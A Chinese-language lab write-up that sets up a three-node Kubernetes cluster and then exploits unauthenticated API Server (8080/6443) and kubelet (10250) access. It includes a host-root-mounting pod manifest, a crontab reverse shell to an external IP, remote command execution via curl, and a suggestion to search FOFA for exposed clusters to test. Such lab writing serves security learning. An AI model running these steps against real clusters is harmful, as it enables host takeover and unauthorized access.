K8s-1-未授权访问 #
K8S集群安装配置
安装K8S环境一共三台主机一台终端两台节点
# 在 master 节点上执行
hostnamectl set-hostname master-1
# 在第一个 worker 节点上执行
hostnamectl set-hostname node1
# 在第二个 worker 节点上执行
hostnamectl set-hostname node2
cat <<EOF >>/etc/hosts
192.168.79.141 master-1
192.168.79.140 node1
192.168.79.139 node2
EOF
yum remove -y docker-ce docker-ce-cli containerd.io
rm -rf /var/lib/docker
rm -rf /var/lib/containerd
yum install -y docker-ce-18.09.9-3.el7 docker-ce-cli-18.09.9-3.el7 containerd.io
systemctl disable firewalld
systemctl stop firewalld
setenforce 0
sed -i 's/SELINUX=permissive/SELINUX=disabled/' /etc/sysconfig/selinux
sed -i "s/SELINUX=enforcing/SELINUX=disabled/g" /etc/selinux/config
swapoff -a
sed -i 's/.*swap.*/#&/' /etc/fstab
cat <<EOF > /etc/sysctl.d/k8s.conf
net.bridge.bridge-nf-call-ip6tables = 1
net.bridge.bridge-nf-call-iptables = 1
EOF
# 添加 Kubernetes 的阿里云 yum 源
cat <<EOF > /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://mirrors.aliyun.com/kubernetes/yum/repos/kubernetes-el7-x86_64/
enabled=1
gpgcheck=1
repo_gpgcheck=1
gpgkey=https://mirrors.aliyun.com/kubernetes/yum/doc/yum-key.gpg https://mirrors.aliyun.com/kubernetes/yum/doc/rpm-package-key.gpg
EOF
# 安装指定版本的 kubeadm, kubelet, kubectl
yum install -y kubectl-1.16.0-0 kubeadm-1.16.0-0 kubelet-1.16.0-0
# 设置 kubelet 开机自启并立即启动（此时会报错，正常）
systemctl enable kubelet && systemctl start kubelet
master执行
# 初始化控制平面
kubeadm init --image-repository registry.aliyuncs.com/google_containers --kubernetes-version v1.16.0 --apiserver-advertise-address 192.168.79.141 --pod-network-cidr=10.244.0.0/16 --token-ttl 0
# 初始化成功后，配置 kubectl 的认证文件
mkdir -p $HOME/.kube
sudo cp -i /etc/kubernetes/admin.conf $HOME/.kube/config
sudo chown $(id -u):$(id -g) $HOME/.kube/config
[root@master-1 ~]# kubectl get nodes
NAME STATUS ROLES AGE VERSION
master-1 NotReady master 2m4s v1.16.0
[root@master-1 ~]#
node--------
为什么 Kubernetes 需要网络插件（如 Flannel/Calico）？
Kubernetes 本身不提供网络功能，它依赖 CNI（Container Network Interface）插件 来实现 Pod 之间的通信。
kubectl get nodes
curl -O https://raw.githubusercontent.com/flannel-io/flannel/v0.12.0/Documentation/kube-flannel.yml
kubectl apply -f kube-flannel.yml
kubectl get daemonset -n kube-system
kubectl get pods -n kube-system -o wide | grep flannel
watch kubectl get pods -n kube-system
kubeadm token list看token
openssl x509 -pubkey -in /etc/kubernetes/pki/ca.crt | openssl rsa -pubin -outform der 2>/dev/null | openssl dgst -sha256 -hex | sed 's/^.* //'看hash
node节点执行
kubectl get pods -n kube-system
kubeadm join 192.168.79.141:6443 \
--token dsfgdi.t1iz8mqhbh54o9qm \
--discovery-token-ca-cert-hash sha256:e70c708dab7a60164b6023d26e57446f2a0cd21a4985d85554fa8642d9b33b8f
节点加入集群❌ 不影响节点加入依赖 kubelet和 kube-proxy，不依赖 Calico 的 BGP
Pod 网络互通✅ 影响Calico 默认依赖 BGP 或 IPIP 实现跨节点 Pod 通信
kubectl exec✅ 影响需要跨节点网络可达
Service 网络❌ 不影响由 kube-proxy处理，不依赖 Calico
systemctl restart kubelet
kubectl get nodes
kubectl delete pods -n kube-system -l app=flannel
watch kubectl get pods -n kube-system -l app=flannel
重置Calico
# 彻底删除 Calico
kubectl delete -f calico-3.9.2.yaml
rm -rf /etc/cni/net.d/calico-kubeconfig
# 清理网络接口
ip link delete cali0 2>/dev/null || true
ip link delete tunl0 2>/dev/null || true
# 重新安装
kubectl apply -f calico-3.9.2.yaml
各种问题后成功的配置-----------------
关键
containerd config default > /etc/containerd/config.toml
#修改文件
https://blog.csdn.net/m0_68472908/article/details/146534195 这个博客的和我上面的结合版本修改上面版本
vim /etc/containerd/config.toml
SystemdCgroup = false 改为 SystemdCgroup = true
sandbox_image = "k8s.gcr.io/pause:3.6" 改为：
sandbox_image = "registry.aliyuncs.com/google_containers/pause:3.6" docker镜像可能要改
{
"registry-mirrors": [
"https://docker.hpcloud.cloud",
"https://docker.m.daocloud.io",
"https://docker.unsee.tech",
"https://docker.1panel.live",
"http://mirrors.ustc.edu.cn",
"https://docker.chenby.cn",
"http://mirror.azure.cn",
"https://dockerpull.org",
"https://dockerhub.icu",
"https://hub.rat.dev"
],
"exec-opts": ["native.cgroupdriver=systemd"]
}
yum install wget
wget https://kuboard.cn/install-script/calico/calico-3.9.2.yaml
export POD_SUBNET=10.244.0.0/16
sed -i "s#192\.168\.0\.0/16#${POD_SUBNET}#" calico-3.9.2.yaml
kubectl apply -f calico-3.9.2.yaml
systemctl stop firewalld && systemctl disable firewalld
sed -i 's/enforcing/disabled/' /etc/selinux/config && setenforce 0
rm -rf /etc/yum.repos.d/*
curl -o /etc/yum.repos.d/aliyun.repo https://mirrors.aliyun.com/repo/Centos-7.repo
2：
cat >>/etc/hosts <<EOF
192.168.180.110 k8s-master
192.168.180.120 k8s-node1
192.168.180.130 k8s-node2
EOF
3
hostnamectl set-hostname k8s-master && bash
hostnamectl set-hostname k8s-node1 && bash
hostnamectl set-hostname k8s-node2 && bash
4
#k8s-master:
yum install chrony -y
vim /etc/chrony.conf
server ntp6.aliyun.com iburst
allow 192.168.0.0/16
systemctl enable chronyd.service
systemctl restart chronyd.service
chronyc sources
chronyc -a makestep
#k8s-node1/k8s-node2:
yum install chrony -y
vim /etc/chrony.conf
server k8s-master iburst
systemctl enable chronyd.service
systemctl restart chronyd.service
chronyc sources
#关闭交换分区
swapoff -a
sed -ri 's/.*swap.*/#&/' /etc/fstab
5
modprobe br_netfilter
cat > /etc/sysctl.conf << EOF
net.ipv4.ip_forward = 1
net.bridge.bridge-nf-call-ip6tables = 1
net.bridge.bridge-nf-call-iptables = 1
EOF
sysctl -p
6
yum install -y conntrack ntpdate ntp ipvsadm ipset iptables curl sysstat libseccomp wget vim net-tools git
cat > /etc/sysconfig/modules/ipvs.modules <<EOF
#!/bin/bash
modprobe -- ip_vs
modprobe -- ip_vs_rr
modprobe -- ip_vs_wrr
modprobe -- ip_vs_sh
EOF
chmod 755 /etc/sysconfig/modules/ipvs.modules && bash /etc/sysconfig/modules/ipvs.modules && lsmod | grep -e ip_vs -e nf_conntrack_ipv4
lsmod | grep -e ip_vs -e nf_conntrack
7
cat << EOF > /etc/modules-load.d/containerd.conf
overlay
br_netfilter
EOF
modprobe overlay
modprobe br_netfilter
wget -O /etc/yum.repos.d/docker-ce.repo https://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
#安装docker
yum install -y containerd.io docker-ce docker-ce-cli
mkdir /etc/containerd -p
containerd config default > /etc/containerd/config.toml
#修改文件
vim /etc/containerd/config.toml
SystemdCgroup = false 改为 SystemdCgroup = true
sandbox_image = "k8s.gcr.io/pause:3.6" 改为：
sandbox_image = "registry.aliyuncs.com/google_containers/pause:3.6"
#docker加速
cat > /etc/docker/daemon.json <<EOF
{
"registry-mirrors": [
"https://do.nark.eu.org",
"https://dc.j8.work",
"https://docker.m.daocloud.io",
"https://dockerproxy.com",
"https://docker.mirrors.ustc.edu.cn",
"https://docker.nju.edu.cn"
],
"exec-opts": ["native.cgroupdriver=systemd"]
}
EOF
systemctl enable containerd && systemctl start containerd
systemctl enable docker && systemctl start docker
8
cat <<EOF > /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://mirrors.aliyun.com/kubernetes/yum/repos/kubernetes-el7-x86_64/
enabled=1
gpgcheck=0
repo_gpgcheck=0
gpgkey=https://mirrors.aliyun.com/kubernetes/yum/doc/yum-key.gpg
EOF
yum clean all
yum makecache fast
9
#安装指定版本
yum install -y kubelet-1.23.0-0 kubeadm-1.23.0-0 kubectl-1.23.0-0 --disableexcludes=kubernetes
vim /etc/sysconfig/kubelet
KUBELET_EXTRA_ARGS="--cgroup-driver=systemd"
systemctl enable kubelet && systemctl start kubelet
#初始化
kubeadm init --kubernetes-version=v1.23.0 --pod-network-cidr=10.244.0.0/16 --image-repository registry.aliyuncs.com/google_containers --apiserver-advertise-address 192.168.180.110
#这个是初始化成功后有显示的
export KUBECONFIG=/etc/kubernetes/admin.conf
mkdir -p $HOME/.kube
sudo cp -i /etc/kubernetes/admin.conf $HOME/.kube/config
sudo chown $(id -u):$(id -g) $HOME/.kube/config
10
#master初始化成功后将这一段复制到两个节点上加入群集
kubeadm join 192.168.180.110:6443 --token 8zgrg1.dwy5s6rqzzhlkkdl --discovery-token-ca-cert-hash sha256:9dfa30a7a8314887ea01b05cc26e80856bfd253d1a71de7cd5501c42f11c0326
11
kubectl apply -f https://docs.projectcalico.org/manifests/calico.yaml
kubectl get pod -n kube-system -o wide
这里只需要等待他们全部running即可
kubectl get nodes
K8S集群渗透 #

确保都running不然实验不行而且版本要合适
1：API Server未授权访问&kubelet未授权访问 #
API Server
资源操作的唯一入口，并提供认证、授权、访问控制、API 注册和发现等机制
旧版本的k8s的API Server默认会开启两个端口：8080和6443。
6443是安全端口，安全端口使用TLS加密；但是8080端口无需认证，
仅用于测试。6443端口需要认证，且有 TLS 保护。（k8s<1.16.0）
新版本k8s默认已经不开启8080。需要更改相应的配置
漏洞条件：
1、Kubernetes版本小于 v1.20
2、8080端口可访问（配置不当）
cd /etc/kubernetes/manifests/
- --insecure-port=8080
- --insecure-bind-address=0.0.0.0
kubectl get pod -n kube-system -o wide查看K8S网络工具搭建情况

当你发现有未授权后使用官方工具来访问
kubectl.exe -s 192.168.79.141:8080 get nodes 获取节点信息
kubectl.exe -s 192.168.79.141:8080 get pods 获取应用
kubectl -s 192.168.79.141:8080 create -f test.yaml 创建文件pod应用为创建镜像
kubectl -s 192.168.79.141:8080 --namespace=default exec -it 名字 bash 进入镜像
echo -e "* * * * * root bash -i >& /dev/tcp/ip/4444 0>&1\n" >> /mnt/etc/crontab 用挂载逃逸计划任务反弹
test.yaml:
apiVersion: v1
kind: Pod
metadata:
name: manbo
spec:
containers:
\- image: nginx
name: test-container
volumeMounts:
\- mountPath: /mnt
name: test-volume
volumes:
\- name: test-volume
hostPath:
path: /

创建节点查看POD成功创建
进入

echo -e “* * * * * root bash -i >& /dev/tcp/116.62.32.64/4444 0>&1\n” » /mnt/etc/crontab反弹获得本机shell
成功拿下这台docker镜像的本机node1

2、攻击6443端口：API Server未授权访问 #
一些集群由于鉴权配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使6443端口允许匿名用户以管理员权限向集群内部下发指令。
kubectl create clusterrolebinding system:anonymous --clusterrole=cluster-admin --user=system:anonymous

记得用https访问

发恶意yaml文件包
https://192.168.139.130:6443/api/v1/namespaces/default/pods/
POST：{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test02\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test02\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test02","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test02","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}

成功创建pod 并且挂载到host里面一样使用mnt提权
进入方式
1
kubectl --insecure-skip-tls-verify -s https://192.168.79.131:6443 --namespace=default exec -it heikea bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
Please enter Username: r
root@heikea:/#
root@heikea:/#
root@heikea:/#
2
kubectl.exe -s 192.168.79.131:8080 --namespace=default exec -it heikea bash
3、攻击10250端口：kubelet未授权访问 #
配置问题
https://192.168.79.131:10250/pods
/var/lib/kubelet/config.yaml
修改authentication的anonymous为true,
将authorization mode修改为AlwaysAllow,
重启kubelet进程-systemctl restart kubelet
没有配置的时候进不去一旦修改

修改后

获得三个信息
1：namespace= kube-system
2: pod= etcd-master-1
3: container =etcd
curl -XPOST -k "https://192.168.79.131:10250/run/kube-system/etcd-master-1/etcd" -d "cmd=id"
成功命令执行
被攻击的 Docker 镜像对应的是 kube-scheduler 组件
该请求的本质是通过 Kubelet 的 10250 端口（默认只读端口，若被配置为可写则存在风险），在 kube-scheduler-master-1 Pod 的 kube-scheduler 容器内执行命令（如 id）
在fofa搜索port="10250" 6443测试
